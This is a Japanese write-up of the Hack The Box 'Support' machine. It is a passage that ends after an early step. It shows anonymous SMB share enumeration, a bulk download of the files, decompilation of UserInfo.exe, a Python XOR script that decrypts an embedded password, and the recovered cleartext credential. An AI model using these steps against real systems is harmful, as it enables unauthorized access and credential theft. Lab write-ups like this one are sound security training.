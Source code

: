 まずsmbシェアをみると、みなれない"support-tools"なるものがある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient -L 10.10.11.174 

Password for [WORKGROUP\shoebill]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
  ```
  
 パスワード無しで、support-toolsにアクセスして中身のファイルやフォルダを確認する。
 
 ```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\shoebill]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 21 02:01:06 2022
  ..                                  D        0  Sat May 28 20:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 20:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 20:19:55 2022
  putty.exe                           A  1273576  Sat May 28 20:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 20:19:31 2022
  UserInfo.exe.zip                    A   277499  Thu Jul 21 02:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 20:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 20:19:43 2022
```

以下のようにして再帰的にすべてダウンロードする。

```
smb: \> mask ''
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```
得られたファイルのうち"UserInfo.exe.zip"にユーザの情報がありそうなので、これを解凍してdnSpyで解析する。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/support-tools]
└─$ unzip UserInfo.exe.zip
```
UserInfo.exeをdnSpyでみると、暗号化されたパスワードと、キー、そしてパスワードを生成するような関数が見つかる。

![dnspy](https://user-images.githubusercontent.com/85237728/194679210-75055544-fd20-497f-bbca-8caedabb954e.png)

XORは二回繰り返すとと元に戻るので、このコードを参考にPythonスクリプトを書く。

```python
#!/usr/bin/env python3
from base64 import b64decode
from pwn import *

array = b64decode('0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E')
key = bytes('armando', 'utf-8')
ans = b''
for i in range(len(array)):
    temp = array[i] ^ key[i % len('armando')] ^ 223
    ans += pack(temp, 'all')

print('ans:', ans)
```
実行すると生のパスワードを得る。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ python3 decryptor.py
ans: b'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

